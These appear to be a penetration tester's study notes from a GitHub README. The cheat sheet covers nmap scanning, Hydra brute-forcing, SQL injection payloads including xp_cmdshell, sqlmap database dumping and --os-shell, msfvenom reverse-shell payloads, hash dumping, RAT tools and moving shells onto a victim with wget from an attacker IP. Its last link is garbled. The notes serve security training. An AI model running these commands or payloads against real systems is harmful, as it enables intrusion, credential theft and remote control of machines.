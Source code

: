 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details open>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```sudo nmap -sn --exclude [IP] 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn), exclude a specific url (--exclude).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |
| nbstat.nse     | NetBIOS (137)  | NetBIOS enumeration, use -sU for UDP. |

</details>

# Brute-force
<details open>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

To get the cookie for this login -> inspect element -> console -> type ```document.cookie```

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Metasploit

### Handy Metasploit modules

 Module    | Service  | Description       |
| --------|:--------:|:-----------------|
| smb_login     | SMB      |    Brute-force SMB credentials. |
| smb_version   | SMB      |    Scan for SMB version.        |
| smb_enumshares| SMB      |    Enumerates SMB shares.       |
| post/windows/gather/smart_hashdump  | Windows(any)    | ```run post/windows/gather/smart_hashdump``` - Use this when in meterpreter shell and want to search for Windows hashes.        | 
| post/linux/gather/hashdump   | Linux(any)    | ```run post/linux/gather/hashdump``` - Use this when in meterpreter shell and want to search for Linux hashes.        |
| exploit/multi/handler| Any      |    Use this to catch shell.       |

<details>
<summary>msfvenom</summary>

### Msfvenom Payload Examples

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``` - Linux.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe``` - Windows.

```msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php``` - PHP.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp``` - ASP.

 ```msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py``` - Python.

Remember to set correct payload in the exploit/multi/handler as well!
 
Refer to "Transfering Files" section in order to see details how to upload these shells.

</details>

# Cryptography
<details>
<summary>hashcat</summary>
Useful sites for online hashes:
  
- https://hashes.com
- https://hashes.com/en/tools/hash_identifier

Can also use hashid to identify hash type:

```hashid -m [hash]```
- m to show corresponding hashcat mode.

Standard hashcat command:

```hashcat -a 0 -m [hash_mode_id] [hash] [wordlist]``` 
- Straight attack mode suited for wordlist (-a 0).
- Specified hash type (-m).

If hashcat does not work consider using John the Ripper.

------

</details>

<details>
<summary>John the Ripper</summary>

```john --format=nt --wordlist=<path-to-wordlist> <hash>```
- Set hash format (--format=).
- Set wordlist (--wordlist=).

For hash formats check:
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

------

</details>

</details>

<details>
<summary>Other Tools</summary>

**Hashmyfiles** - For calculating and comparing hashes of files. Can be used to compare hashes and find tempered data.

**CryptoForge** - For easy encrypting and decrypting using password.

**BcTextEncodes** - For encoding and decoding text in file (.hex). 

**Cryptool** - For encryption/decryption of hex data - by manipulating the key length. This tool can perform brute-force analysis.

**Veracrypt** - For hiding and encrypting disk partitions. Can also be used to open encrypted disk partition (mount). Outer and inner partitions has separate passwords.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

https://www.hybrid-analysis.com/ - Online tool.

**DIE (Detect it Easy)** - Scan and analyze .elf files.

**PE Explorer** - Find entry point address.

</details>

# Traffic Sniffing
<details open>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

**To followup on something like a DoS or DDoS attack go into Statistics -> Conversations and sort by packet count or bytes sent.**

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)


</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

```scp /path/to/local/file.txt <user>@$IP:$PORT:/path/to/remote/``` - SCP file transfer example.

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

https://infosecwriteups.com/privileges-escalation-techniques-basic-to-advanced-in-linux-973cb62cbe8d

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy

### Videos

https://www.youtube.com/watch?v=VuIYNxazbN0&list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz&index=9

https://www.youtube.com/watch?v=4JzLg7wjHm8&list=PL-Fa25Pu8l6wV1Se-bPY-Onc6t_mUTZHW

https://www.youtube.com/watch?v=`x31mz'|F='op!'!jmA|
